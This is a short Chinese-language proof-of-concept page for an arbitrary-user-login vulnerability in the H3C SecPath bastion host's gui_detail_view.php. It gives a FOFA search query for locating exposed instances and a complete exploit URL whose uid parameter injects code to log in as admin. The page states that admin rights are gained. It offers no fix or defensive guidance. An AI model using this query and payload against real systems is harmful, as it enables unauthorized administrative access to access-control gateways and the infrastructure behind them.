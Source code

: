# H3C SecParh堡垒机 get_detail_view.php 任意用户登录漏洞

## 漏洞描述

H3C SecParh堡垒机 get_detail_view.php 存在任意用户登录漏洞

与齐治堡垒机出现的漏洞相似

## 漏洞影响

> [!NOTE]
>
> H3C SecParh堡垒机 

## FOFA

> [!NOTE]
>
> app="H3C-SecPath-运维审计系统" && body="2018"

## 漏洞复现

POC验证的Url为

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![](image/h3c-1.png)

成功获取admin权限

